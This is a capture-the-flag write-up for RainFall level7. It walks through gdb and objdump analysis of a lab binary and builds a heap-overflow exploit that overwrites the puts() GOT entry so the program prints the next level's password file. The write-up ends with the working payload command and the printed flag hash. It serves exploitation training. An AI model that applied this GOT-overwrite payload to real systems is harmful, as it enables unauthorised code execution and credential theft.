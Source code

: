 ## level7

The `level7` expects at least two arguments otherwise it will crash. There are two functions, `main()` and `m()` and `m()` is naver called from `main()` we can see it using:
```
(gdb) info functions

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m                      <-----------------
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```
Many of those functions are from main because the `m()` functions is a relly short one
```
0x080484f4 <+0>:	push   ebp
0x080484f5 <+1>:	mov    ebp,esp
0x080484f7 <+3>:	sub    esp,0x18
0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
0x08048501 <+13>:	call   0x80483d0 <time@plt>
0x08048506 <+18>:	mov    edx,0x80486e0
0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
0x08048517 <+35>:	mov    DWORD PTR [esp],edx
0x0804851a <+38>:	call   0x80483b0 <printf@plt>
0x0804851f <+43>:	leave
0x08048520 <+44>:	ret
```
Disassembling `main()` we see four calls to `malloc()`, two calls to `strcpy()` *(we know `strpcy()` is vulnerable)*, one call to `fopen()`, one call to `fgets()` and one last call to `puts()`. <br> Every call to `malloc()` is made with an `0x8 bytes`.<br> Both `strcpy()` are taking the arguments as it's seconde parameter `strcpy(*dst, argv[1]) - strcpy(*dst, argv[2])` *(that is the reason it will crash if less than two parameters is passed)*
```
~$ gdb -q level7
b *0x080485a0
b *0x080485bd
(gdb) r
Breakpoint 1, 0x080485a0 in main ()
x/s $edx
0xbffff8c3:	 "AAA"
(gdb) r
Breakpoint 2, 0x080485bd in main ()
x/s $edx
0xbffff8c7:	 "BBB"
```

We can use the first `strcpy(*dest, 20 * 'A' + 08049928)` to overflow  and overwrite the  __address__ *(first argument passed to the second `strcpy(*dest <--, *src)`)* and if we place the __address__ of the `GOT` *(yes the same strategy as in `level5`)* of the function  `puts()` and we place  the __address__ of function `m()` to be passed as argument to the second `strcpy()` this function will execute and we will get our flag.<br>
In the `main()` as already said there will be 4 `malloc()` and the `strcpy()` will copy what we entered as first argument to the first __address__ return by `malloc()` and the second argument will be copied to the last __address__ returned by `malloc()` there are also a call to `fopen()` right after the last `strcpy()` and if we examine one __address__ just before the call we see what the function is trying to open <br>
```
0x080485c7 <+166>:	mov    eax,0x80486eb
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
```
From this we know the program is opening the file that contains our *flag* we just have to wait to it to open the file and call `fgets()` right after and store this value in a global variable <br>
`0x080485e4 <+195>:	mov    DWORD PTR [esp],0x804996` <br> and this same variable is passed to `printf()` in the `m()` program that is never called, check the `m()` function above and you can see the same address being passed to `printf()` and four our happiness just before the `main()` funtions returns there's a call to `puts()` coincidence ?
So our goal here is to modify the address of the `GOT` table that contains the __address__ of `puts()` and place the __address__ of the `m()` functions instead so before returning from `main()` the program will call the `puts()` functions from the this modified __address__ and will call the function we want.<br>
Let's get the _offset_ and prepare the _payload_
```
(gdb) r AAAAAAAAAAAAAAAAAAAAA BBBBBB
Breakpoint 1, 0x080485a0 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080485bd in main ()
(gdb) x/30xw $esp
0xbffff6a0:	0x08040041	0xbffff8c4	0xb7fd0ff4	0xb7e5ee55
0xbffff6b0:	0xb7fed280	0x00000000	0x0804a028	0x0804a008
0xbffff6c0:	0x08048610	0x00000000	0x00000000	0xb7e454d3
0xbffff6d0:	0x00000003	0xbffff764	0xbffff774	0xb7fdc858
0xbffff6e0:	0x00000000	0xbffff71c	0xbffff774	0x00000000
0xbffff6f0:	0x0804825c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff700:	0x00000000	0xb2243554	0x8560b144	0x00000000
0xbffff710:	0x00000000	0x00000000
```
As we can see passing 'A' * 21 we overwrote by `one byte` the __address__ *0x08040041* so we know our *offset is 20*, we already have the `m()` function __address__ above and the *offset* now find the `puts()` __address__ and  build the *payload*
```
level7@RainFall:~$ objdump -R level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print  '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1602709985
```
